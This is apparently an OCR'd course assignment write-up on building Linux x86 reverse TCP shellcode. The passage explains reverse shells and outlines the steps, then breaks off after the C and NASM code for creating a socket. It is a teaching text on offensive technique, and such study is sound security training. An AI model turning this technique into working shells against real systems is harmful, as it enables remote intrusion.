 **Assignment 2**

Shellcode for Reverse TCP Shell with a cutom wrapper script for dynamic port and IP of choosing

**Introduction**

	A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved

	This is a good start if youre new at this
	https://resources.infosecinstitute.com/icmp-reverse-shell/#gref

  The difference between bind and reverse from a  programtic perspective is that  we are iniating a connection from the target host to the listener .so listen() and accept() calls are out.

**Methodology**

	Its noted that it would be easier to analyse a reverse_tcp shell implemented using a high level program like c to see whats going on under the hood and replicate the functions / sys calls using nasm.

	Overall summary of whats happening under the hood 
	>Creates a socket
	>Define the socket with IP address and port to connect
	>Redirect STDIN, STDOUT and STDERR to the socket connection
	>Executes a shell


	NASM intro
	If youre a beginner this is a good read, https://cs.lmu.edu/~ray/notes/nasmtutorial/functionalities are achieved through syscall , each function calls has a particalur call number , which is placed in EAX , arguments to the function call are passed through EBX,ECX,EDX respectively



	>Create a socket 
				
        		A new socket is created sockdescritptor here is "sock" for internet protocol,tcp and ipv4


			int sock = socket(AF_INET, SOCK_STREAM, 0);
			#int socket(int domain, int type, int protocol);
					
			Refer: http://man7.org/linux/man-pages/man2/socket.2.html

			domain    : AF_INET      ,  IPv4 Internet protocols
			type      : SOCK_STREAM  ,  Provides sequenced, reliable, two-way, connection-based byte streams , via TCP 
			protocol  : 0  ,  internet protocol, pseudo protocol number , we could mention 0 as well 
										 ,  Refer /etc/protocols

		Nasm
					
			push eax  
        		push 0x6  #IPPROTO_TCP
        		push 0x1  #SOCK_STREAM
        		push 0x2  #AF_INET , Protocol
        		mov ecx,esp
        		mov al,0x66  #socketcall syscall
        		mov bl,0x1   #sys_socket
        		int 0x80   ----> actual sys call.
